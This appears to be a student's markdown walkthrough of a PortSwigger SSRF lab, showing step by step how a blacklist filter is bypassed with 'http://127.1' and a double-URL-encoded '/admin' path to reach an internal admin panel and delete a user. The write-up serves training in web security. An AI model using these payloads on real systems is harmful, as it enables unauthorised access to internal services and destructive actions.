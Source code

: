 
### SSRF with blacklist-based input filter : PRACTITIONER

---


> We visit any item and check its stock with BURPSUITE PROXY HTTP history on.

![](./screenshots/checkstock.png)

> There is a `POST` request sent.

![](./screenshots/lab1-req.png)

> Trying to modify the `stockApi` parameter URL to access the `/admin` page.
> Trying the normal payload.
```
http://127.0.0.1/admin
```

![](./screenshots/lab3-1.png)

> We see that it is blocked.
> Changing the `127.0.0.1` to another representation of this IP address.
```
http://127.1/admin
```

> We see that is is also blocked.
> Maybe the issue is with accessing the `/admin` page itself.
> Trying to URL encode the `/admin` path.
```
http://127.1/%61%64%6d%69%6e
```

> It also doesn't work. Trying to double URL encode it.
```
http://127.1/%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65
```

> Now it is sent to the server encoded once, so it can bypass the black-list.

![](./screenshots/lab3-2.png)

> We now have access to admin page.
> Similar to [[Portswigger/SSRF/Lab 1|Lab 1]], we enter the delete page and the username parameter with carlos.
```
http://127.1/%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65/delete?username=carlos
```

> Sending the request completes the lab.

![](./screenshots/lab3-3.png)

> A better way was to first bypass the `127.0.0.1`, and then bypass the encoding of the `/admin` page, and not do both at the same time.

---

